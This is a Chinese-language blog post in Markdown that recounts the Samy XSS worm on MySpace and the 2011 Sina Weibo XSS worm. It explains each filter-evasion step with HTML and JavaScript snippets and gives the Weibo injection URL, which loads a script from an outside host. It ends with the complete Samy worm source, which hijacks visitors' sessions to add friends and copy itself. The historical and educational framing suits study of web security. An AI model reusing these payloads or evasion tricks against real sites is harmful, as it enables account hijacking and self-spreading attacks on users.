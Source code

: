 ```yaml
---
title: XSS蠕虫攻击真实案例两则·过程及原理分享
date: 2017-09-06 18:24:20
tags:
- XSS
- 信息安全
categories: 信息安全
---
```


第一个要分享的可以说是世界第一则XSS蠕虫事件，该事件的主角是社交网站myspace，黑客叫Kamkar（ [博客地址](https://samy.pl/) ），黑客大牛。另一件则是跟新浪微博有关。之前老有同学抱怨自己微博莫名其妙发布了些奇怪的东西，看了这篇文章应该就会了解其中原委了吧。

<!--more-->

# 故事一：Myspace

以下文章是网友根据Kamkar在其Github上讲述的如何在MySpace上实现第一个XSS工具蠕虫代码的说明翻译的。

1. Myspace 屏蔽了很多标志符。事实上，他们只允许< a \>,< img \>类，和< div \>类，或许还有其他一些（例如，< embed \>类）。他们不允许< script \>类，< body \>类，onClinks,onAnythings,带javascript的< href \>类。但是某些浏览器（IE，部分Safari和其他）允许CSS标识符中带有javascript.即便如此，我们也需要javascript能够正常运行。例如：
    ```html
    <div style=”background:url(‘javascript：alert(1)’)”>
    ```
2. 不能对Div 标识符使用引号，因为已经使用了单引号和双引号。这让JS的编程非常困难。为了让JS运行，我们使用表达式来保存JS代码和通过函数名来运行。例如
     ```html
     <div id=”mycoce” expr=”alert(‘hah!’)”sytle=”background:url(‘javascript：eval(document.all.mycode.expr)’)”>
     ```
3. 现在我们可以执行带单引号的Javascript代码了。但是，MySpace网站禁止了关键字”javascript”.为了实现目的，某些浏览器认可“java\nscript”（就是java\<NEWLINE>script 为”javascript”.例如:
    ```html
    <divid=”mycode”expr=”alert(‘hah!’)”style=”background:url(‘javaScript:eval(document.all.mycode.expr)’)”>
    ```
4. 很好，当我们让单引号其效果后，我们有时还需要双引号。我们将引号转义，例如，“foo\”bar”. Myspace 打击我一下，他们禁止了所有转义，无论是双引号还是单引号。但是，我们依然可以在javascript 中将10进制翻译成ASCII来生成引号。例如:
    ```html
    <div id=”mycode”expr=”alert(‘doublequota:’+String.fromCharCode(34))”style=”background:url(‘javScript:eval(document.all.mycode.expr)’)”>
    ```
5. 为了将代码发布到真正展示的用户简介页面上，我们需要得到这些页面源码。为了获得包含客户ID的浏览页面的源码，我们可以使用document.body.innerHTML。但是Myspace再次打击了我，他们禁止了标识“innerHTML “.我们可以用eval函数来拼接两个字符串组成“innerHTML”.例如:
    ```html
    alert(eval(‘document.body.innt’+’rHTML’))
    ```
6. 是时候访问其他页面了。通常我们使用”iframes”格式，但是即便是隐藏的，“iframes”并不有效，会让用户明显感到有其他东西在运行。所以我们采用AJAX(XML-HTTP)来让实际用户产生HTTP GET和POST到页面。当然，Myspace禁止了XML-HTTP请求所必需的敏感词“onreadstatechange”,我们再次使用EVAL来拼接生产该敏感词。另外，要XML-HTTP在myspace 有效果还需要Cookies.例如:
    ```html
    eval(‘xmlhttp.onread’+’ystatechange=callback’);
    ```
7. 是时候在用户简介上执行GET来获得他们的Hero列表。我们不必删除任何heros,我们仅仅是将自己添加到已有的列表中。如果我们GET他们的简介，我们就能获取他们的列表并且保存备用。综上所述，用XML-HTTP来实现是简单的，除非我们要获得当前浏览该简介的用户ID。正如我说的，我们可以从获取页面源码来实现。好了，我们需要在页面中搜索关键词。但是如果我们这么做，我们会发现自己，因为我们的代码包含相同的关键字。我们再次使用eval()来拼接字符串来避免这个问题。

8. 到此，我们有了heros列表。第一，让我们在addFriends页面执行一个XML-HTTP
   POST请求把自己加到朋友列表中。欧不，这样不行，为啥？我们正在profile.myspace.com页面，但是POST动作要在www.myspace.com 页面去运行。但是XML-HTTP不允许在不同域名间实现GETs/POSTs。为了避免这样，我们要去同一URL而不是在www.myspace.com 页面。你可以继续从www.myspace.com 浏览简介，通过在同一域名中重新装载运行我们执行POST的页面。例如:
    ```javascript
    if(location.hostname== ‘profile.myspace.com’)
    document.location= ‘http://www.myspace.com’+location.pathname + location.search;
    ```
9. 最后我们执行POST请求。但是，当我们发送POST请求后没有添加用户。为啥？原来Myspace为一个预POST页面生产了一个哈希值，例如在“你确定添加该用户为朋友页面”。如果这个哈希值没有与POST一同发生的话，这个POST不会成功执行。为了避免这样，在添加用户前我们模拟一个浏览器去GET该页面，通过分析源码来取得该哈希值，然后带上该哈希值去执行POST请求。

10. 一旦POST请求结束，我们还要添加一个Hero和执行代码。这段代码执行完后就会到hero的同一地方，所以我们只有一个POST请求就可以了。但是，我们需要预GET一个页面来得到一个新的哈希值。但是，第一我们不得不重新生成我们要POST的代码。最简单的办法是获取我们要的页面源码，分析出代码后在发出POST请求。到此为止万事俱备。为了POST请求正在运行我们需要对代码做编码或者转义。可恶，还是不能运行。显然，javascript的URL-Encoding和escape（） 函数不能转义所以必须要的代码。所以我们不得不人工来做这些工作确保必要的代码正确转义。我们添加了一条“but most of all ,samy is my hero”到代码。哇，我们自我复制了一个蠕虫代码。

11. 还有其他限制，例如，最大长度，必需紧凑的代码，没有空格，混乱的命名，重复使用的函数等等。

# 故事二：新浪微博

这个事件是发生在2011年6月28日，敲响国内关于SNS（Social Network Site）网站安全管理的警钟！一直以来，为了SNS更快的发展和获益，很多大型的SNS网站忽略对于安全的管理，人人网，百度空间，搜狐博客这些等都在不同时间内受过蠕虫病毒的侵害，在这其中XSS攻击手法在这些SNS网站上屡试不爽。在此之前，国内多家著名的SNS网站和大型博客网站都曾遭遇过类似的攻击事件，只不过没有形成如此大规模传播。

## 案例回顾

6月28日晚，新浪微博遭遇到XSS蠕虫攻击侵袭，微博用户中招后，会自动通过发微博和私信的方式将XSS蠕虫信息对外传播，发布带有恶意脚本的链接地址，当用户的粉丝点击带有恶意脚本的链接后就会再次中毒，进而形成恶性循环。其中众多加V认证的用户受到感染，当此类用户发布相关微博和私信内容后，蠕虫的传播将变得更为广泛，影响也更为严重。在不到一个小时内，超过三万的微博用户受到病毒感染

## 案例分析

1. 首先，黑客通过对新浪微博的分析测试发现新浪名人堂部分由于代码过滤不严，导致XSS漏洞的存在，并可以通过构造脚本的方式植入恶意代码。通过分析发现，在新浪名人堂部分中，当提交http://weibo.com/pub/star/g/xyyyd" \>< script src=//www.2kt.cn/images/t.js \> \< / script \>?type=update时，新浪会对该字符串进行处理，变成类似http://weibo.com/pub/star.php?g=xyyyd" \>< script src=//www.2kt.cn/images/t.js \></ script \>?type=update，而由于应用程序没有对参数g做充足的过滤，且将参数值直接显示在页面中，相当于 weibo.com 在页面中嵌入了一个来自于 2kt.cn的JS脚本。该JS脚本是黑客可以控制的文件，使得黑客可以构造任意JS脚本嵌入到weibo.com的页面中，且通过Ajax技术完全实现异步提交数据的功能，进而黑客通过构造特定的JS代码实现了受此XSS蠕虫攻击的客户自动发微博、添加关注和发私信等操作。

2. 然后，黑客为了使该XSS蠕虫代码可以大范围的感染传播，会通过发私信或发微博的方式诱惑用户去点击存在跨站代码的链接，尤其是针对V标认证的用户，因为此类用户拥有大量的关注者，所以如果此类用户中毒，必然可以实现蠕虫的大范围、快速的传播。

3. 最后，当大量的加V认证账户和其他普通用户中毒后，这些用户就会通过发微博和发私信的方式将该XSS蠕虫向其他用户进行传播，进而导致了该XSS蠕虫的大范围、快速的传播与感染

# 附Samy 蠕虫源码
```html
<div id=mycode style="BACKGROUND:url('java
script:eval(document.all.mycode.expr)')"expr="var B=String.fromCharCode(34);varA=String.fromCharCode(39);function g(){varC;try{varD=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return
C}else{return eval('document.body.inne'+'rHTML')}}function
getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function getQueryParams(){varE=document.location.search;var F=E.substring(1,E.length).split('&');var AS=new Array();for(varO=0;O<F.length;O++){varI=F[O].split('=');AS[I[0]]=I[1]}return AS}var J;varAS=getQueryParams();varL=AS['Mytoken'];varM=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}functiongetClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}functionparamsToString(AV){var N=new
String();var O=0;for(var P
in AV){if(O>0){N+='&'}varQ=escape(AV[P]);while(Q.indexOf('+')!=-1){Q=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){Q=Q.replace('&','%26')}N+=P+'='+Q;O++}return
N}function httpSend(BH,BI,BJ,BK){if(!J){return
false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return
true}function findIn(BF,BB,BC){varR=BF.indexOf(BB)+BB.length;varS=BF.substring(R,R+1024);returnS.substring(0,S.indexOf(BC))}functiongetHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';varV=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var Y=W.substring(0,X);return Y}function getXMLObj(){var Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else
if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=newActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return
Z}var AA=g();var AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);varAD=AC.indexOf('D'+'IV');var AE=AC.substring(0,AD);varAF;if(AE){AE=AE.replace('jav'+'a',A+'jav'+'a');AE=AE.replace('exp'+'r)','exp'+'r)'+A);AF='
but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function getHome(){if(J.readyState!=4){return}varAU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG+=AF;var
AR=getFromURL(AU,'Mytoken');var
AS=new
Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken='+AR,postHero,'POST',paramsToString(AS))}}}functionpostHero(){if(J.readyState!=4){return}var AU=J.responseText;var AR=getFromURL(AU,'Mytoken');var
AS=new
Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function
main(){var AN=getClientFID();varBH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken='+L,processxForm,'GET')}functionprocessxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var
AS=new
Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to
Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function
httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return
false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return
true}"></DIV>
```
